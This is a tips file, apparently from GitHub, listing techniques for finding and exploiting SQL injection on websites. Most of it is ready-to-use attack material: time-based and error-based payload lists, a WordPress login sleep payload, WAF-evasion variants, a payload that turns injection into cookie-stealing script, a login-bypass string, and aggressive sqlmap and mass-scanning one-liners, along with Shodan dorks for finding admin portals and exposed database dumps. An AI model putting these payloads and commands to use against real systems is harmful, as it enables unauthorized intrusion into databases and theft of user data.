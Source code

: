 
							Finding SQLi TIPS
							------------------------

 #Tip1:-
 ==========
        - Fuzzing on subdomain.com on this wordlist [https://t.co/btRdm0tpcn]
	- But get all result 403
	- Search on shodan IPs
	- You can find the same service on
		subset.com
	- Fuzzing Again
	- subtest.domain/wp-content/mysql.sql


 #Tip 2:
 ========
	Finding SQLi using jeeves
	$ echo "example.com" | gf sqli | qsreplace "(select(0)from(select(sleep(5)))v)" | jeeves --payload-time 10
	[https://t.co/nZqYEhLgIE]
         
	 sqlmap -u “url” -p parameter --level 5 --risk 3 --dbms="MySQL" --random-agent --test-filter="boolean-based blind"  --    current-user --hostname 

 #Tip 3:
 =======
**Try Error Base SQL injection **

	This is how to find sql-Injection of the time
	/?q=1
	/?q=1'
	/?q=1"
	/?q=[1]
	/?q[]=1
	/?q=1`
	/?q=1\
	/?q=1/*'*/
	/?q=1/*!1111'*/
	/?q=1'||'asd'||'   <== concat string
	/?q=1' or '1'='1
	/?q=1 or 1=1
	/?q='or''='
	/?q=")
	/?q=')
	/?q=-x()

**Try This Payload in Wp-login.php page**
	
	0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 20.002
	0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 7.282
	0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z => 0.912
	0'XOR(if(now()=sysdate(),sleep(15),0))XOR'Z => 16.553
	0'XOR(if(now()=sysdate(),sleep(3),0))XOR'Z => 3.463
	0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z => 1.229
	0'XOR(if(now()=sysdate(),sleep(6),0))XOR'Z => 7.79

 #Tip 4:
=========
	How to find SQLi using Shodan
	1. Shodan dork: SSL:""
	2. Found employee's admin portal and username input vulnerable to sqli.
	3. Sqlmap command:
	$ sqlmap  -r req.txt --batch --force-ssl --level 5 --risk 3 --dbs --hostname --current-user -p "username"
	$- sqlmap -u http://example.com --batch --banner --tamper=space2comment --user-agent=random

 #Tip 5:
=========
	SQL injection vulnerable to XSS:
	
 	Payload:
 	concat(0x3c7363726970743e70726f6d70742822,0x3078336e30,0x7c7c,user(),0x7c7c,database(),
        0x222c646f63756d656e742e636f6f6b6965293c2f7363726970743e)


 #Tip 6:
 =========
	SQLi payload in .html site and reflected in the title.
	example site: [example.com/index.html]
	website/example'+union+select+CONCAT_WS(0x203a20,USER(),DATABASE(),VERSION())+--+.html


 #Tip 7:
 ============
        You can inject header too with SQLi POC:
 	$ sqlmap -u "https://example.com" --header="X-Forwarded-For: 1*" --dbs --batch --random-agent --threads=10



 #Tip 8:
==========
 	- Uncover the Blind SQL injection with 'XOR' operator
 	/path/to/vuln?param=not_exist'XOR(if(now()=sysdate(),sleep(5),0))XOR'

	- Hanging with WAF
 	/path/to/vuln?param=not_exist%27XoR(if(nOw()=SySDaTe(),/**/SlEep(5),/**/0))XoR%27/*


	_Akami WAF Bypass & SQLi
	  'XOR(if(now()=sysdate(),sleep(5*5),0))OR'


 #Tip 9:
================
 
 	SQL injection:
 	In username,email parameter
	login, sigup, forget 
  
	Add this Sleep Payload 
	abdul'||DBMS_PIPE.RECEIVE_MESSAGE(CHR(98)||CHR(98)||CHR(98),10)||'


 #Tip 10:
==============
	~Admin Panel Access via sqli:
 	
 	1- Search for login page through with dork:
 	   org:"Target.com" http.title:"Login"
	2- Bypass login with old way
 	   admin' or 1=1

	++++++++++++++++++++++++++++++++++++++++++++++
 
	Useful onliner command to find sql using httpx:
	$ cat host.txt | httpx -c -silent -path "/wp-content/mysql.sql" -mc 200 -t 250 -p 80,443,8080,8443 | anew myP1s.txt


Tips 11:
=================

	SQLi-TimeBased scanner

	gau DOMAIN.tld  | sed 's/=[^=&]*/=YOUR_PAYLOAD/g' | grep ?*= | sort -u | while read host;do (time -p curl -Is $host) 2>&1 | awk '/real/ { r=$2;if (r >= TIME_OF_SLEEP ) print h " => SQLi Time-Based vulnerability"}' h=$host ;done

===================

Tips: 12:
========
	Oneliner Sqli:
	--------------
	findomain -t http://testphp.vulnweb.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli --batch --random-agent --level 1













